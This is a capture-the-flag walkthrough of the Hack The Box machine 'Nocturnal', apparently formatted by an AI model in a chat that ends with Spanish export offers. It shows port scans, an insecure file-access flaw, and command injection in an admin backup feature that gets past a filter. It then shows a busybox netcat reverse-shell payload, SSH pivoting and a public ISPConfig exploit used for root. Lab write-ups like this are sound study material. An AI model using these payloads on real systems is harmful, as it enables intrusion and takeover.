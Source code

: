 ```yaml
---
# HTB - Nocturnal

## Reconnaissance

### Port Scanning

To begin the assessment, a full TCP SYN scan was performed on all ports to identify open services:

```bash
sudo nmap -sS -Pn -n -p- --min-rate 5000 10.10.11.64
````

![Port scan](images/20250727143751.png)

Once the open ports were identified, a more detailed service/version scan was launched on ports 22 and 80:

```bash
sudo nmap -sCV -Pn -n -p22,80 10.10.11.64
```

![Service detection](images/20250727143936.png)

The scan revealed the virtual host `http://nocturnal.htb`. This was added to the local `/etc/hosts` file to resolve the hostname properly:

![Hosts entry](images/20250727144211.png)

## Web Exploration

Upon accessing the domain:

![Main page](images/20250727144235.png)

A test user named `test` was created through the registration form:

![Test user creation](images/20250727144334.png)

The file upload feature allowed only files with the following extensions: `.pdf`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.odt`.

![Upload restrictions](images/20250727144655.png)

Analyzing the URLs generated after uploading files revealed that it was possible to manipulate the `username` and `file` parameters to access files uploaded by other users.

![Path traversal test](images/20250727145006.png)

## Enumeration & File Discovery

A brute-force attack was initiated to enumerate valid usernames and filenames stored on the server:

![Brute-force attack](images/20250727152938.png)

The attack revealed:

* **Username:** `amanda`
* **File:** `privacy.odt`

![File found](images/20250727153012.png)

The file was accessed directly from:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

![File download](images/20250727153131.png)

The document contained Amanda’s credentials:

![Credentials found](images/20250727153219.png)

Using these credentials, access was gained to an administrative panel:

![Admin panel](images/20250727153308.png)

## Vulnerability in Admin Panel

Analyzing the source code of `admin.php` revealed a vulnerable **backup generation** feature:

![Vulnerable code](images/20250727153329.png)

### Vulnerability Summary

* Admins could create ZIP backups of the directory, protected by a password.
* The password field was passed directly into the `zip` shell command via `proc_open()`.
* The `cleanEntry()` function was used for input sanitization but only blacklisted certain characters (`;`, `&`, `|`, `$`, etc.).
* There was no proper escaping or whitelisting of input.

A test for command injection was performed by intercepting and modifying the POST request:

```http
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Type: application/x-www-form-urlencoded

password=%0abash%09-c%09"whoami"&backup=
```

Explanation:

* `%0a`: newline (terminates input)
* `%09`: tab (used to bypass space filtering)
* `bash -c "whoami"`: executes command

![Command injection test](images/20250727153329.png)

## Reverse Shell

After confirming command execution, a reverse shell was triggered using `busybox` with netcat:

```bash
password=%0abash%09-c%09"busybox%09nc%0910.10.14.20%094444%09-e%09/bin/bash”&backup=
```

![Reverse shell sent](images/rev_shell_payload.png)

A listener was opened on the attacker's machine:

![Listener](images/20250727143254.png)

Once inside the shell, the SQLite database was queried, revealing user accounts and password hashes. The user containing the flag was `tobias`.

![SQLite dump](images/20250727143507.png)

The hash was cracked using [hashes.com](https://hashes.com):

![Hash cracked](images/20250727143326.png)

Using the recovered credentials, SSH access was gained:

```bash
ssh tobias@nocturnal.htb
```

![SSH access](images/20250727153703.png)

## Pivoting: Accessing Internal Services

During local enumeration, an internal service was discovered on port `8080`. This service was not accessible externally, so SSH port forwarding was used:

```bash
ssh -L 8081:127.0.0.1:8080 tobias@nocturnal.htb
```

![Port forwarding](images/port_forwarding.png)

The web interface of ISPConfig was exposed at `http://127.0.0.1:8081`. Default credentials were tested and successful:

* **Username:** admin
* **Password:** slowmotionapocalypse

![ISPConfig login](images/ispconfig_login.png)

## Remote Code Execution (RCE)

ISPConfig was running a version affected by the critical vulnerability:

> **CVE-2023-46818** – Remote Code Execution

A public exploit was found and executed:

* [https://github.com/engranaabubakar/CVE-2023-46818](https://github.com/engranaabubakar/CVE-2023-46818)

The exploit granted **root** access to the server, successfully completing the CTF challenge.

![Root access](images/root_access.png)

---
```


- Asegúrate de que todas las imágenes estén correctamente renombradas y almacenadas en la carpeta `images/` dentro del mismo directorio que el `.md`.
- Si necesitas que genere también un `.pdf` o `.html` a partir del `.md`, puedo ayudarte con el comando de `pandoc` o `typora`.

¿Quieres que te lo exporte como `.pdf` o `.html` también?
```
